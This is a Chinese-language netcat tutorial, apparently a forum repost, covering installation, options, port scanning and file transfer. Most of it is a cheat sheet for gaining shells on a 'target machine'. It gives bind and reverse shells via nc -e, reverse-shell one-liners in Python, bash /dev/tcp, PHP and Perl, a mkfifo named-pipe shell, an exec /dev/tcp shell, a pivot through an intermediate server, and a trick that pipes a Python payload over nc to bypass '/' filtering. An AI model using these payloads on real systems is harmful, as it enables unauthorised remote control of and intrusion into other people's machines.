# nc

> 原文：[https://www.zhihuifly.com/t/topic/3450](https://www.zhihuifly.com/t/topic/3450)

# netcat

### 1、安装

```
wget http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download -O netcat-0.7.1.tar.gz
tar zxvf netcat-0.7.1.tar.gz
cd netcat-0.7.1
./configure
make 
```



windows版本的nc。在禁用-e远程执行选项的情况下编译的版本。

> https://joncraton.org/files/nc111nt.zip

> https://joncraton.org/files/nc111nt_safe.zip

### 2、帮助信息速查表

nc -h 查看帮助信息
-d: 后台模式
-e: 程序重定向
-g<网关>: 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目>: 设置源路由指向器的数量，值为4的倍数。
-i<延迟秒数>: 设置时间间隔，以便传送信息及扫描通信端口
-l: 使用监听模式，管理和控制传入的数据
-n: 直接使用IP地址(不通过域名服务器)
-o<输出文件>: 指定文件名称，把往来传输的数据转换为16进制字符后保存在该文件中
-p<通信端口>: 设置本机使用的通信端口
-r: 随机指定本机与远程主机的通信端口
-s<源地址>: 设置本机送出数据包的IP地址
-u: 使用UDP传输协议
-v: 详细输出
-w<超时秒数>:设置等待连线的时间
-z: 将输入/输出功能关闭，只在扫描通信端口时使用

### 3、使用

*   (1) banner相关信息抓取

> nc -nv 192.168.123.103 22



*   (2) 连接远程主机

> nc -nvv 192.168.123.103 80



*   (3) 端口扫描
    扫描指定端口

> nc -v 192.168.123.103 80

扫描端口段(速度很慢)

> nc -v -z 192.168.123.103 20-1024



*   (4)监听端口
    监听本地端口，当访问该端口时会输出该信息到命令行

> nc -lp 999



*   (5)文件传输
    传输一个名为test.txt的文本文件

> nc -vn 192.168.1.1 333 < test.txt -q 1

监听，将接受到的数据放到1.txt

> nc -lp 333 > 1.txt

传输完成后，打开1.txt，可看到数据已经传输过来



*   (6)简易聊天

> nc -l -p 888

> nc -vn 192.168.1.1 888



### 4、获取shell

*   (1)正向shell
    客户端连接服务器，客户端获取服务器的shell。(目标机监听，攻击机连接)
    目标机命令：

> nc -lvp 4444 -e /bin/sh 在linux中使用

> nc -lvp 4444 -e c:\windows\system32\cmd.exe 在win中使用

攻击机命令：

> nc 192.168.1.1 4444


可以看到我们执行ifconfig,变成了目标机的IP,即拿到了目标机的shell

*   (2)反向shell
    客户端连接服务器，服务器获取客户端的shell。通常用在开启防护措施的目标机，如防火墙过滤、端口转发的等。
    (攻击机监听，目标机连接)
    攻击机命令：

> nc -lvp 999

目标机：

> nc 192.168.1.1 999 -e /bin/sh 在linux中使用

> nc 192.168.1.1 999 -e c:\windows\system32\cmd.exe 在win中使用



### 5、目标机无nc时获取反向shell

*   (1)python反向shell

```
攻击机：

nc -lvp 2222

目标机： `python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.136.129”,2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’` 
```



*   (2)bash反向shell

```
攻击机：
nc -lvp 4444 `目标机：

bash -i >& /dev/tcp/192.168.136.129/4444 0>&1` 
```



*   (3)PHP反向shell

```
攻击机：
nc -lvp 3333 `目标机：

php -r ‘$sock=fsockopen(“192.168.136.129”,3333);exec("/bin/sh -i <&3 >&3 2>&3");’` 
```



*   (4)perl反向shell

攻击机：
nc -lvp 5555

目标机：

```
perl -e 'use Socket;$i="192.168.136.129";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```



*   (5)内网代理
    环境：kali无法访问数据库服务器，但是可以通过web服务器访问数据库服务器

    kali执行:
    nc -lvp 3333
    数据库执行:
    nc -lvp 3333 -e /bin/sh
    web服务器执行：
    nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"

原理：把web服务器当作中间机，使kali与数据库通信

*   (6)技巧之'/'符号绕过(文件传输与python反向shell结合)(来自"熊猫人"的思路)
    前提:靶机可以执行nc和pyhon
    要想反弹shell成功，很大程度上需要'/'符号，但是有些网站，bp发过去的'/'不起作用。

利用nc的传输文件:
nc -lnvp 5555 < cmd
nc localhost 5555 可查看cmd文件内容
cmd的内容如下

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.136.141",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]) 
```



```
攻击机执行：
nc -lnvp 10000 < cmd 如果shell反弹不回去，关掉这部分
nc -lnvp 1234
目标机执行：
nc 192.168.136.129 10000 | python 
```



*   (7)对于不支持nc -e参数，使用以下命令或使用其他版本nc

```
攻击机：
nc -lvp 1024
目标机：
nc.traditional 192.168.37.132 1024 -e /bin/sh 
```



*   (8)配合命名管道进行反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.37.132 1024 >/tmp/f 
```



*   (9)使用exec反弹

```
0<&196;exec 196<>/dev/tcp/192.168.37.132/1024; sh <&196 >&196 2>&196 
```

